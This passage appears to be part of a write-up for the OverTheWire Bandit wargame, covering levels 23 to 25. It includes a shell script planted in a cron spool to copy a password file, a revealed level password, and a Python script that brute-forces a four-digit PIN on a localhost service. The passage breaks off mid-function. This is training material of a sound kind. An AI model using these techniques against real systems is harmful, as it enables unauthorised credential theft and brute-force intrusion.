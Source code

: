 We then create a script `getpass.sh` in `/var/spool/bandit24/getpass.sh`:
```bash
#!/bin/bash

cat /etc/bandit_pass/bandit24 >> /tmp/b24passwd/pass
```

We also need to grant execute permissions: `chmod +x /var/spool/bandit24/getpass.sh`
The password will then be printed into `/tmp/b24passwd/pass`:
```
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

## Level 24 -> 25
The task states the password can be retrieved by sending the last password
and a secret 4-digit pin to port 30002 on localhost via tcp and the pin
can only be retrieved by bruteforcing. I therefore wrote this crappy little
python script to retrieve it:

```bash
#!/usr/bin/env python3
# Test
import socket
import select
import sys

def main():
    if len(sys.argv) > 1:
        start = int(sys.argv[1])
    else:
        start = 0
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect(('localhost', 30002))
    sock.setblocking(0)
    read_from_socket(sock)

    for i in range(start, 10000):
        pin = str(i).zfill(4)
        print('Trying %s' %(pin))
        while True:
            try:
                sock.send(('UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ %s\n' %(pin)).encode('utf-8'))
                break
            except BrokenPipeError:
                sock = reconnect_socket()
        while True:
            answer = read_from_socket(sock)
            if answer: break
        if not "Wrong" in answer:
            print("Password found! Pin: %s" %(pin))
            print("Password: %s" %(answer))
            break


def read_from_socket(opensock):
    answer = ""
    while True:
        ready = select.select([opensock], [], [], 0.001)
        if not ready[0]: continue;
        response = opensock.recv(1024)
        #if not response: break
        answer += response.decode('utf-8')
        return answer

def reconnect_socket():
```